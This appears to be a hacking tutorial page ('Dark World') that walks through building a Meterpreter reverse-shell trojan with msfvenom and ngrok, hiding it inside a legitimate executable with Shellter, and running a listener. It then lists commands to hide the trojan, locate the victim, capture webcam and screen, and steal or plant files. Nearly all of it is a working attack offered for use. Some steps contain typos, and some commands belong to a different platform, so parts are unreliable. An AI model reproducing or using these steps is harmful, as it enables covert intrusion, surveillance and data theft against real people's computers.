

Dark World
Stroming Your Brain, Not Enter Your Legs
Windows Hacking is a process to to gain access of any Windows from anywhere. For this process you have create a client and a listener. There are two process, one is Creating Payload & Embeded Payload. The method is explained below....
At first open the QTerminal
$ ngrok tcp 4574
Now open a side window on QTerminal & Write the following command
$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=[ Enter Ngrok TCP Host] LPORT= [Enter_Ngrok_TCP_Port] -e shikata_ga_nai -f exe R> /root/Desktop/trojan.exe
Now trojan is build on the Desktop & named with 'trojan.exe' Now you have to create the listener to read session and make operation. Open Another side window on QTerminal and write the command.
$ msfconsole
$ clear
$ use exploit/multi/handler
$ set payload windows/x64/meterpreter/reverse_tcp
$ set LHOST localhost
$ set LPORT 4574
$ set ExitOnSession falsr
$ exploit
After it the QTerminal shows that it bind with tcp. Now excute the operational command to get information.
Commands
hide_app_icon >>>>> To hide the trojan from victim's device
wakelock >>>>> To gain Wakelock
geolocate >>>>> To get the location of victim's device
webcam_list >>>>> Show the webcam list
webcam_snap >>>>> To take a selfie
webcam_share >>>>> To stream video from victim's mobile
screenshare >>>>> See the target device screen.
cd >>>>> To enter file system
ls >>>>> List of file
cat [filename.ext] >>>>> To read file
download [file_name] >>>>>> To download file
upload [file_name] >>>>>> To upload file to victim's device.
help >>>>>> To know all active commands.
$ ngrok tcp 4574
Windows has some extra security features. So to embed payload you need some encoder and shell. Now open a side window on QTerminal & Write the following command
$ sudo su
$ apt-get install shellter
$ sudo dpkg --add-architecture && apt-get update && apt-get install wine:i386 && apt-get install wine32
$ reboot
After reboot fire up kali linux and go to the QTerminal. And write down the following command....
$ sudo su
$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=[ Enter Ngrok TCP Host] LPORT= [Enter_Ngrok_TCP_Port] -e shikata_ga_nai -f raw R> /root/Desktop/trojan.raw
$ shellter
Now enter this parameter...
Parameter Usage
A = Auto
M = Mannual
H = Halt
Y = Yes
N = No
L = Listed
C = Custom
>>> Choose operation mode - Auto/Mannual (A/M/H): A
>>> PE Target: /root/Downloads/predownloaded_exe.exe
>>> Enable Stealth Mode? (Y/N/H): N
>>> Select payload: /root/Desktop/trojan.raw
>>> Is this payload a reflective DLL loader? (Y/N/H): N
Press [ENTER] to continue.....
Now embed trojan is build on the Desktop & named with 'predownloaded.exe' Now you have to create the listener to read session and make operation. Open Another side window on QTerminal and write the command.
$ msfconsole
$ clear
$ use exploit/multi/handler
$ set payload windows/x64/meterpreter/reverse_tcp
$ set LHOST localhost
$ set LPORT 4574
$ set ExitOnSession falsr
$ exploit
After it the QTerminal shows that it bind with tcp. Now excute the operational command to get information.
Commands
hide_app_icon >>>>> To hide the trojan from victim's device
wakelock >>>>> To gain Wakelock
geolocate >>>>> To get the location of victim's device
webcam_list >>>>> Show the webcam list
webcam_snap >>>>> To take a selfie
webcam_share >>>>> To stream video from victim's mobile
screenshare >>>>> See the target device screen.
cd >>>>> To enter file system
ls >>>>> List of file
cat [filename.ext] >>>>> To read file
download [file_name] >>>>>> To download file
upload [file_name] >>>>>> To upload file to victim's device.
help >>>>>> To know all active commands.
